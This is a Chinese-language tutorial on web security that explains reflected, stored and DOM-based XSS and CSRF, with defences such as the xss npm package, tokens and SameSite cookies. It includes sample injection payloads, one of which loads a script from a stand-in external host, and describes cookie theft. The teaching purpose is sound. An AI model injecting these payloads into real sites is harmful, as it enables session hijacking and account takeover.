

# XSS和CSRF

## XSS
### 简介
跨站脚本攻击，英文全称是Cross Site Script，本来缩写是CSS，但是为了和层叠样式表
(CascadingStyleSheet,CSS）有所区别，所以在安全领域叫做“XSS”。
XSS攻击，通常指黑客通过“HTML注入”篡改了网页，插入了恶意的脚本，从而在用户
测览网页时，控制用户浏览器的一种攻击。在一开始，这种攻击的演示案例是跨域的，所以叫
做“跨站脚本”。但是发展到今天，由于Javascript的强大功能以及网站前端应用的复杂化，是
否跨域己经不再重要。但是由于历史原因，XSS这个名字却一直保留下来。

### XSS漏洞产生的原因
XSS漏洞通常产生在前端js代码的漏洞。所以会和前端环境（如浏览器内核版本）有关。

### 分类与示例
#### 反射型XSS
反射型XSSS只是简单地把用户输入的数据“反射”给浏览器。也就是说，黑客往往需要
诱使用户“点击”一个恶意链接，才能攻击成功。反射型XSS也叫做“非持久型XSS”(Non-persistent XSS)。
攻击者发现 http://weibo.com/pub/star/g/xyyyd 这个 URL 的内容未经过滤直接输出到 HTML 中。
于是攻击者构建出一个 URL，然后诱导用户去点击：
```html
http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>
```

用户点击这个 URL 时，服务端取出请求 URL，拼接到 HTML 响应中：
```html
<li><a href="http://weibo.com/pub/star/g/xyyyd"><script src=//xxxx.cn/image/t.js></script>">按分类检索</a></li>
```
浏览器解析html就会执行这段script代码。如果这段script代码包含一个模拟当前用户的操作，比如发帖子，关注之类的代码。这样就完成了一次xss攻击。
#### 存储型XSS
存储型XSS会把用户输入的数据“存储”在服务器端。这种XSS具有很强的稳定性。
1. 攻击者在一个表单输入描述的input输入了一串js代码如下：
```js
<script>alert(1)</script>
```
提交保存后，该代码存到了服务器。当有管理员会查看用户提交的内容时。
页面会加载该数据。本来页面加载输入的描述是文字。正常加载看起来是这样的
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p>这是一段描述</p>
    </div>
  </body>
</html>
```
但是由于输入的是script所以就变成了
```html
<html>
  <body>
    <div>
      <span>描述：</span>
      <p><script>alert(1)</script></p>
    </div>
  </body>
</html>
```
浏览器就会执行这段script代码。如果这段script代码包含一个获取当前页面信息的脚本，并发送给了黑客的服务器，黑客就拿到了比如cookie登录。这样就完成了一次xss攻击。

存储型XSS会持续攻击，因为存储在服务端，只要有人查看有那段js的代码的页面。就会一直发起攻击。
#### DOM型XSS
这种类型的XSS并非按照“数据是否保存在服务器端”来划分，DOM型
从效果上来说也是反射型XSS。单独划分出来，是因为DOM型的形成原因比较特别，
发现它的安全专家专门提出了这种类型的XSS。出于历史原因，也就把它单独作为一个分类了。
本质也是js脚本的实现，但是这个的情况是，比如我有一个输入框input，用来填充输入的url然后构建一个跳转的a标签。如下代码所示。
```html
<input id="text">
<div id="aa"></div>

<script>
  let input = document.getElementById("text").value;
  document.getElementById("aa").innerHTML = `<a herf="${input}">点我</html>`
</script>
```
这时候。我不输入url了。我输入：
```html
javascript:void 0;" onclick="(function(){alert(233)})()
```
让innerHTML的结果为：
```js
document.getElementById("aa").innerHTML = `<a herf="javascript:void 0;" onclick="(function foo(){alert(233)})()">1aaa</a>`
```
这样用户点击就可以执行onclick里的函数，又是一次XSS攻击了。

## 防御XSS
web前端的话，可以下载[xss 的npm包](https://github.com/leizongmin/js-xss)
> npm install xss

主要要处理好input、富文本输入、输出的检查。上面仅仅是XSS攻击的一种实现。但是原理是类似的。


## CSRF

CSRF（Cross-site request forgery）跨站请求伪造：攻击者诱导受害者进入第三方网站，在第三方网站中，向被攻击网站发送跨站请求。利用受害者在被攻击网站已经获取的注册凭证，绕过后台的用户验证，达到冒充用户对被攻击的网站执行某项操作的目的(如修改操作、删除操作等)。主要就是cookie的锅,不过目前新版浏览器大多已经关闭第三方Cookie了。

### 特征
一个典型的CSRF攻击有着如下的流程：
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；       
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；       
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；       
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；       
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。

CSRF的两个特点：
- CSRF（通常）发生在第三方域名。
- CSRF攻击者不能获取到Cookie等信息，只是使用。
该图是一个银行转账的csrf攻击图


理解CSRF攻击最主要的核心在于，cookie的发送这个知识点。意思浏览器新打开的tab页面B发起对页面A域名地址的请求。浏览器会把A页面得到的cookie，加在这个请求上(这个请求其实和A页面的请求代码一样的请求地址，只不过代码写在B页面上)。对于服务器来讲cookie是身份识别，都是一样的所以会允许通过。但是http的头Referer字段会显示来源是B的地址。
### CSRF 防御


- 可以用验证码的方式，很好的抑制CSRF攻击。但是并不是万能的。出于用户体验考虑。网站不能给所有操作都加上验证。
- 还可以设置随机token。
- 重要操作要求输入原始密码，或者发送手机验证。
- 设置cookie SameSite也可以避免一些问题
- 验证Referer头
## 参考
- 《白帽子讲web安全》
- [前端安全系列（一）：如何防止XSS攻击？](https://juejin.cn/post/6844903685122703367)
- [前端安全系列之二：如何防止CSRF攻击？](https://juejin.cn/post/6844903689702866952)
- [xss的npm官网](https://jsxss.com/zh/index.html)